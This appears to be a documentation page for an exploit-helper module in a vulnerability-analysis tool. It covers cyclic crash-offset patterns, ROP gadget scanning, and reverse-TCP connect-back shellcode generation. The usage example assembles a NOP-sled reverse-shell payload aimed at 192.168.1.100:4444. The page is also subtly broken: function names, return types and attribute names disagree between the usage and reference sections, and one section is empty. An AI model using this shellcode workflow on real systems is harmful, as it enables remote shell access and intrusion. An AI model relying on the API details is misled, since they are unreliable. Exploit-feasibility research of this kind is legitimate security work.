

# Crash Offset and ROP Helpers

Generate de Bruijn cyclic patterns for crash offset identification, detect common ROP gadgets in x86-64 and ARM64 code, and construct minimal x86-64 ROP chains: supporting exploit feasibility work on confirmed stack-overflow and format-string findings: via `ablation/core/shellcode_utils.py`.

---

## Why this exists

1. **`PathSolver` confirms vulnerability reachability but does not produce a proof-of-concept.** When `TaintTracker` confirms an ARG_PROPAGATED stack overflow, the next question is crash-offset: how many bytes from the tainted input overwrite the return address? `generate_cyclic_pattern()` produces a de Bruijn sequence; `find_cyclic_offset()` computes the exact return address offset from the 4-byte crash pattern in the core dump or SIGTRAP register state.

2. **ROP gadget detection operates on disassembled function output**: `scan_rop_gadgets()` scans the binary for `RET`, `POP; RET`, `ADD RSP, N; RET`, and `JMP [REG]` sequences, returning a `GadgetList` keyed by gadget type. Common gadget classes `pop rdi; ret`, `pop rsi; ret`, `syscall` are annotated by name. This is substantially faster than running a full ROPgadget or ropper pass when only a small set of gadget types is needed for a specific exploit chain.

3. **`shellcode_reverse_tcp_linux_x86_64()` and `shellcode_reverse_tcp_linux_arm64()`** produce ready-to-embed connect-back shellcode with configurable `lhost` and `lport`, with bad-byte checking via `check_bad_bytes()` and XOR encoding via `xor_encode()` when the target has bad-byte constraints. `nop_sled()` generates a NOP sled for width-padding.

---

## How it works



---

## Usage

```python
from ablation.core.shellcode_utils import (
    generate_cyclic_pattern, find_cyclic_offset,
    scan_rop_gadgets,
    shellcode_reverse_tcp_linux_x86_64,
    check_bad_bytes, xor_encode, nop_sled
)

# Crash offset
pattern = generate_cyclic_pattern(512)
# (send pattern to target, capture crash state)
crash_bytes = bytes.fromhex('61616162')   # from crash register read
offset = find_cyclic_offset(crash_bytes)
print(f"Return address offset: {offset} bytes")

# ROP gadgets
binary_data = open('/path/to/target', 'rb').read()
gadgets = scan_rop_gadgets(binary_data)
for gtype, entries in gadgets.items():
    for e in entries[:3]:
        print(f"  {gtype}: {e.va:#x}  {e.asm}")

# Shellcode
sc = shellcode_reverse_tcp_linux_x86_64('192.168.1.100', 4444)
if bad := check_bad_bytes(sc, [b'\x00', b'\x0a']):
    sc = xor_encode(sc)
payload = nop_sled(128) + sc
```

---

## Example output

The following illustrates crash offset and ROP output format.

```
generate_cyclic_pattern(512): b'aaaabaaacaaadaaaeaaafaaagaaah...'

find_cyclic_offset(b'61616162'): 72 bytes

scan_rop_gadgets():
  pop_rdi_ret:   0xXXXXXX  pop rdi; ret
  pop_rsi_ret:   0xYYYYYY  pop rsi; pop r15; ret
  add_rsp_ret:   0xZZZZZZ  add rsp, 0x28; ret

shellcode_reverse_tcp_linux_x86_64: <N> bytes
  Bad bytes at offsets: [42]
  xor_encode: <M> bytes (key=0x17, decoder prepended)
```

---

## False positives

**`scan_rop_gadgets()` scans the full binary including data sections**: bytes in data sections that decode as valid ROP sequences will appear in the gadget list. Filter results to text section ranges using `BinaryContext.section_range('.text')` before searching for gadgets.

**`find_cyclic_offset()` assumes a standard de Bruijn pattern**: if the target overwrites more than 4 bytes at a time, `find_cyclic_offset()` may return an offset that is a multiple of the overwrite granularity. Verify the offset by constructing a proof-of-concept with a controlled 8-byte value at the computed offset before proceeding.

---

## Pipeline position

Run crash offset and ROP helpers after `TaintTracker` confirms an ARG_PROPAGATED overflow reaching a sink. This stage is for exploit feasibility validation, not for initial triage. Results feed the `proof_of_concept` field of the `FindingRegistry` entry.

---

## Reading output

`find_cyclic_offsetcrash_bytes` returns `int`: the byte offset at which the de Bruijn pattern is overwritten, or raises `ValueError` if the crash bytes are not recognized as de Bruijn output.

`find_rop_gadgetsbinary_data, base_addr=0` accepts raw bytes and an optional base address, returning a list of `RopGadget` objects:

| Attribute | Content |
|:---|:---|
| `addr` | Virtual address of the first byte of the gadget |
| `insns` | Human-readable disassembly string (e.g. `'pop rdi ; ret'`) |
| `source` | Originating binary name empty string when scanning raw bytes |
| `type` | Gadget category: `'ret'`, `'pop_ret'`, `'syscall'`, `'stack_pivot'`, `'mov_ret'` |

---

## See also

- [Named Taint Sources and Bounds](named-taint-sources-and-bounds.md): `TaintTracker` that identifies ARG_PROPAGATED overflow sinks before ROP work begins
- [Sink Argument Classification](sink-argument-classifier.md): `SinkArgClassifier` that confirms overflow at the sink call site
